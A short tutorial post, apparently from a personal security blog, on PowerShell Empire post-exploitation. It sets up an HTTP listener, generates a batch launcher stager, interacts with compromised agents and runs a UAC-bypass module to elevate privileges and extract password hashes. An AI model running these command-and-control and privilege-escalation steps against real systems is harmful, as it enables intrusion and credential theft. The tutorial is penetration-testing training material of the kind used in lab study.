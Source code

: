 # Welcome to Cyber Secure Labs
Public Site for sharing security writes




## Post Exploitation 



### Working with Powershell Empire 

Empire is a “PowerShell and Python post-exploitation agent” with a heavy focus on client-side

exploitation and post-exploitation of Active Directory (AD) deployments.


Windows Platform: Exploitation and post exploits are performed using Powershell.


Linux & macOS: Exploitation requires Python 2.6 or 2.7



In the latest version of Powershell Empire comes with a cleint-server model.

To start the server, the command is below: 

```
sudo powershell-empire server
```

To start the client, the command is below: 

```
sudo powershell-empire client
```

After starting both the client an server, the methodology used to carry out an attack are as follows:

1. Start a Listener 
2. Start a Stager
3. Listing the Agents
4. Interact with the agents
5. Run Post Exploitation commands

### Setting up a listener:

```
use Listener http

set Name test

set Host 192.168.119.208

set Port 4444

execute

```

### Setting up a stager:


```
usestager windows/launcher_bat

set Listener test

execute

```


### Setting up a stager:

```
agents
```

### Interacting with an agent

```
interact S2PRDACB
```

### Post Exploitation Commands:

```
info
```


####Elevating Privileges and Extracting Password Hashes

To do this, type the following command: 

```
usemodule powershell/privesc/bypassuac_env
```
Set Listener to http, since we are using a http listener, and Agent to the agent from the victim machine.

